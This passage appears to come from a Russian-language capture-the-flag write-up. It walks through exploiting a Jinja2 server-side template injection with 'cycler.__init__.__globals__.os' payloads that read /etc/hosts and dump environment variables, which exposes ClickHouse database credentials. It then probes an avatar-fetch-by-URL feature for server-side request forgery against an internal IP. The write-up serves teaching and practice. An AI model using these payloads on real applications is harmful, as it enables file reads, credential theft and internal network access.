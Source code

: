 ```python
{{ cycler.__init__.__globals__.os.read(cycler.__init__.__globals__.os.open("/etc/hosts", 0), 1000) }} # читаем файлы
```

Документация библиотеки `os` нужной версии - [docs.python.org/3.11/library/os](https://docs.python.org/3.11/library/os.html)

Ответ на `{{ cycler.__init__.__globals__.os.environ }}`:
```
environ({'PATH': '/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', 'HOSTNAME': '8681d6734908', 'CLICKHOUSE_USER': 'app_user', 'CLICKHOUSE_PASSWORD': 'N7p3uK1w1ZNYNKdg9joKdptILCnjFSCM', 'SSL_CERT_FILE': '/etc/ssl/certs/ca-certificates.crt', 'LANG': 'C.UTF-8', 'HOME': '/home/nonroot', 'WERKZEUG_SERVER_FD': '3'})
```

Видим утечку кредов в переменных окружения `CLICKHOUSE_USER` и `CLICKHOUSE_PASSWORD`, значит, где-то рядом должен быть хост с БД (иногда прямо на одном хосте поднимают, но в реальной жизни они могут даже в разных подсетях). Кто-то уже на этом моменте пойдет читать про Clickhouse, но без возможности делать запросы не стоит распыляться на лишние движения в условиях соревнований с временным ограничением

На `{{ cycler.__init__.__globals__.os.read(cycler.__init__.__globals__.os.open("/etc/hosts", 0), 1000) }}`, узнаем, что у нас адрес `172.20.0.2`:
```
b'127.0.0.1\tlocalhost\n::1\tlocalhost ip6-localhost ip6-loopback\nfe00::0\tip6-localnet\nff00::0\tip6-mcastprefix\nff02::1\tip6-allnodes\nff02::2\tip6-allrouters\n172.20.0.2\t8681d6734908\n'
```

На этом моменте базовую информацию мы собрали, большего эта уязвимость базово нам не даст, раз в таске есть утечка кредов, то эти креды где-то должны быть применены, и тут мы доходим до функциональности загрузки аватарок по ссылке, тут все просто, вводим URL (например, `https://google.com`), получаем ответ:
```html
<HTML><HEAD><meta http-equiv="content-type" content="text/html;charset=utf-8">
<TITLE>301 Moved</TITLE></HEAD><BODY>
<H1>301 Moved</H1>
The document has moved
<A HREF="https://www.google.com/">here</A>.
</BODY></HTML>
```

Проверяем, делает ли эта штука запросы к внутренней сетке - всегда пробуем и https (`https://172.20.0.2`), и http (`http://172.20.0.2`), по https получаем в лицо следующее:
```
Error occurred while fetching avatar: HTTPSConnectionPool(host='172.20.0.2', port=443): Max retries exceeded with url: / (Caused by NewConnectionError('<urllib3.connection.HTTPSConnection object at 0x7fa6ca4f2010>: Failed to establish a new connection: [Errno 111] Connection refused'))
```

И для http:
```
Error occurred while fetching avatar: HTTPConnectionPool(host='172.20.0.2', port=80): Max retries exceeded with url: / (Caused by NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7fa6ca50b050>: Failed to establish a new connection: [Errno 111] Connection refused'))
```
